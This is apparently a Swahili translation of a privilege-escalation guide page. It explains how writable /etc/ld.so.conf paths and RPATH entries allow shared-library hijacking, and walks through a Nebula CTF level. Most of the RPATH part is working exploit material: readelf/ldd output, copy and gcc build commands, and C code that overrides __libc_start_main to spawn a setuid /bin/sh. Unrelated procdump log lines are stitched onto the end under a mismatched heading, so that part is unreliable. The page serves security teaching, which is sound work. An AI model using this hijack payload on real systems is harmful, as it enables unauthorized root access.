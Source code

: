 ### ld.so

Faili `/etc/ld.so.conf` inaonyesha **kutoka wapi faili za usanidi zilizopakiwa zinatoka**. Kawaida, faili hii ina njia ifuatayo: `include /etc/ld.so.conf.d/*.conf`

Hii ina maana kwamba faili za usanidi kutoka `/etc/ld.so.conf.d/*.conf` zitasomwa. Faili hizi za usanidi **zinaelekeza kwenye saraka nyingine** ambapo **maktaba** zitatafutwa. Kwa mfano, yaliyomo katika `/etc/ld.so.conf.d/libc.conf` ni `/usr/local/lib`. **Hii ina maana kwamba mfumo utatafuta maktaba ndani ya `/usr/local/lib`**.

Iwapo kwa sababu fulani **mtumiaji ana ruhusa za kuandika** kwenye yoyote ya njia zilizotajwa: `/etc/ld.so.conf`, `/etc/ld.so.conf.d/`, faili yoyote ndani ya `/etc/ld.so.conf.d/` au saraka yoyote ndani ya faili ya usanidi ndani ya `/etc/ld.so.conf.d/*.conf` anaweza kuwa na uwezo wa kupandisha ruhusa.\
Angalia **jinsi ya kutumia upungufu huu wa usanidi** kwenye ukurasa ufuatao:


{{#ref}}
ld.so.conf-example.md
{{#endref}}

### RPATH
```
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
0x00000001 (NEEDED)                     Shared library: [libc.so.6]
0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15
linux-gate.so.1 =>  (0x0068c000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
/lib/ld-linux.so.2 (0x005bb000)
```
Kwa kunakili lib kwenye `/var/tmp/flag15/`, itatumiwa na programu hapa kama ilivyoainishwa katika kigezo cha `RPATH`.
```
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15
linux-gate.so.1 =>  (0x005b0000)
libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
/lib/ld-linux.so.2 (0x00737000)
```
Kisha unda maktaba hatari katika `/var/tmp` kwa kutumia `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`
```c
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
char *file = SHELL;
char *argv[] = {SHELL,0};
setresuid(geteuid(),geteuid(), geteuid());
execve(file,argv,0);
}
```
## Uwezo


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714